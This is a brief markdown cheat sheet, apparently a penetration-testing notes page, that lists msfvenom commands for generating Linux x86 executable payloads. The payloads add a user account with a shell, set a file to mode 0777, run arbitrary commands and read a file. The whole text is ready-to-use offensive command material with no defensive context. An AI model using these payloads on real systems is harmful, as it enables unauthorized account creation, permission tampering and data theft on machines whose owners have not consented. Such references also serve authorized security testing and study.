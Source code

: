 # Executable Binary Payloads

## Add User Linux Exec Payload

```
$ msfvenom -p linux/x86/adduser user=<username> pass=<password> shell=/bin/sh -f elf
```

## Execute Linux Exec Payload

```
$ msfvenom -p linux/x86/chmod file=/path/to/file mode=0777 -f elf -o exec-chmod-file-x86

$ msfvenom -p linux/x86/exec cmd="<commands>" -f elf -o exec-cmd-x86

$ msfvenom -p linux/x86/read_file fd=1 path=/path/to/file -f elf -o read-file-x86
```